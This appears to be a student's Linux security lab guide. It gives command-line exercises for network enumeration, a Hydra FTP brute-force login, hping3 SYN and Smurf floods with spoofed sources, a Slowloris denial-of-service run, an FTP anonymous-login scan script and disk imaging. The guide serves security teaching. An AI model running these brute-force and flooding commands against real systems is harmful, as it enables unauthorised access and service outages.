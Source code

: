 # Linux Security Lab Guide

This guide provides a series of cybersecurity explorations, including practical exercises and case studies.

## EXP1: Client-side Vulnerability Exploration

### Discovery Phase:

1. Use `netdiscover` to discover devices on the network.
   ```bash
   netdiscover
   ```

2. Use `nmap` to perform a detailed scan of the target IP address.
   ```bash
   nmap -A <ip_addr>
   ```

3. Utilize `enum4linux` for additional enumeration.
   ```bash
   enum4linux <ip_addr>
   ```

### Wordlist Generation:

1. Create a wordlist for potential passwords.

### FTP Brute Force Attack:

1. Use Hydra to brute force FTP login credentials.
   ```bash
   hydra -L <username_list> -P <password_list> <ip_addr> ftp
   ```

## EXP2: ICMP Packet Spoofing

### Explore various ICMP packet spoofing attacks using `hping3`:

1. Normal ICMP packet.
   ```bash
   hping3 -S -p 80 <target_ip>
   ```

2. SYN attack.
   ```bash
   hping3 -S -p 80 <target_ip> --flood
   ```

3. LAN attack.
   ```bash
   hping3 -S -p 80 <target_ip> -a <spoofed_ip>
   ```

4. Smurf attack.
   ```bash
   hping3 --icmp --flood <target_ip> -a <spoofed_ip>
   ```

5. Random Smurf attack.
   ```bash
   hping3 -S -p 80 <target_ip> --flood --rand-source
   ```

6. TCP sequence prediction attack.
   ```bash
   hping3 -S -p 80 -Q <target_ip>
   ```

## EXP3: Script for FTP Server Analysis

1. Create a script `ftp.sh` for FTP server analysis.

```bash
vi ftp.sh
```

```bash
chmod +x ftp.sh

echo "Enter IP address:"
read ip
echo "Scanning for FTP port"
nmap -A $ip

echo "Enter 'y' if FTP is open or enter 'n' if FTP is closed"
read con 
if [ "$con" = "y" ]; then 
    echo "Checking for anonymous login"
    nmap $ip -p 21 --script ftp-anon
    echo "Close"
fi
```

## EXP4: Transport Attack Exploration

1. Use Wireshark for traffic analysis.
   - Filter traffic for HTTP protocol.

## EXP5: CIA Case Study

1. Study a case study involving confidentiality, integrity, and availability (CIA) concerns.

## EXP6: Denial of Service (DoS) Attack

1. Perform a DoS attack using Slowloris on the target system.
   ```bash
   git clone https://github.com/gkbrk/slowloris
   cd slowloris
   python3 slowloris.py <target_ip> -s 500
   ```

## EXP7: Bit Stream Image Analysis

1. Analyze a bit stream image to extract information from a disk image.
   ```bash
   df
   dd if=/dev/sda1 of=disk_image.img
   ls
   ```
## EXP8: Postmortem Linux

1. Conduct a postmortem analysis of a Linux system using Burp Suite on a vulnerable web page.

